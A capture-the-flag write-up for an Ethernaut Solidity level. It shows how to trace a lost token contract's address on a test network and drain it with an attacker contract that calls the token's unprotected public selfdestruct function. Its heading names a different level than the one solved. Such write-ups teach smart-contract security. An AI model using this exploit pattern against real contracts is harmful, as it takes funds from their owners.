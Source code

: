 # 17. Preservation
<sup>Difficulty 6/10</sup>

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.

## Solution

First things first: we need to recover all contract addresses.

From [Rinkeby Etherscan Transaction](https://rinkeby.etherscan.io/tx/0x3062e8149380de18307ddda9d56ef6d52802df79afee00856a53546fec43dd99) we found two trasnfers:

```
TRANSFER  0.001 Ether From 0xd991431d8b033ddcb84dad257f4821e9d5b38c33 To  0x0eb8e4771aba41b70d0cb6770e04086e5aee5ab2
TRANSFER  0.001 Ether From 0x0eb8e4771aba41b70d0cb6770e04086e5aee5ab2 To  0x88eb9c89128f1b206827d79280847cb7290b7ec0
```

The first transfer looks like the ethernaut one as:

```javascript
ethernaut.address
// -> '0xD991431D8b033ddCb84dAD257f4821E9d5b38C33'
```

Hence, we create a simple contract to exploit the `destroy` function of the `SimpleToken` contract:

```solidity
// clean up after ourselves
function destroy(address payable _to) public {
  selfdestruct(_to);
}
```

This function will destroy the contract and will "recover" all its ether.

```solidity
contract Recovery { 
    SimpleToken st;
    address payable public owner;
    constructor() public {
        owner = msg.sender;  // Me
    }
    function recover(address payable _tokenAddr) public returns (bool) {
        st = SimpleToken(_tokenAddr);
        st.destroy(owner);
    }
}
```

Then, invoking the `recover` function onto the second transfer address that we found `0x88Eb9C89128f1b206827D79280847cb7290B7ec0` led us to the achievement of the challenge!

```
／人 ⌒ ‿‿ ⌒ 人＼ Well done, You have completed this level!!!
```

## OZ Corner

Contract addresses are deterministic and are calculated by `keccack256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](http://martin.swende.se/blog/Ethereum_quirks_and_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.
